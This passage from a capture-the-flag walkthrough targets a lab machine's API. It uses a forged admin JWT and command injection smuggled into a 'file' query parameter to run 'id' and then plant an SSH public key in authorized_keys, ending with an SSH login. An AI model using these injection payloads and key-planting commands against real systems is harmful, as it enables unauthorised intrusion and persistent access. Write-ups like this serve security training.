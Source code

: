 ```bash
curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGhlYWRtaW4ifQ.GDRG1ileUj55S0ZdAAZhtUz28Hz4s7fHgqbiES5Qr7s' 'http://10.10.11.120/api/priv'
```

## Gaining user

Now that we are the required user we can start exploiting the API. Adding any command to the end of the `?file` parameter will run it. Lets try it with `id`.

```bash
curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGhlYWRtaW4ifQ.GDRG1ileUj55S0ZdAAZhtUz28Hz4s7fHgqbiES5Qr7s' 'http://10.10.11.120/api/logs?file=.env;id'
```

We get command output. `"ab3e953 Added the codes\nuid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"`.
Now we can try getting a reverseshell. After playing around a bit to get one working I ended up generating and uploading a sshkey.

```bash
ssh-keygen -t rsa -b 4096 -C 'get@hacked' -f dasith -P ''
```

From the output from `id` we know that the username is `dasith`. Our attackplan is as follows.
1. Make the `.ssh` folder in the home directory if it doesn't exist. *(`mkdir -p /home/dasith/.ssh`)*
2. Write our public key to the `authorized_keys` *(`echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys`)*

First lets store our public key contents into a bash variable `$PUBLIC_KEY`. This will be easier then copying it into the request.

```bash
export PUBLIC_KEY=$(cat dasith.pub)
```

Then running the curl command that "uploads" our public key.

```bash
curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGhlYWRtaW4ifQ.GDRG1ileUj55S0ZdAAZhtUz28Hz4s7fHgqbiES5Qr7s' -G --data-urlencode "file=.env;mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" http://10.10.11.120/api/logs
```
This will be our final command.
What does it do?

- Print Headers
- Use GET
- Send the parameters inside of the query
- Send this command `mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys` where `$PUBLIC_KEY` is replaced with the contents that we already saved to it.

Now we can use our sshkey to login.

```bash
ssh -i dasith dasith@10.10.11.120
```
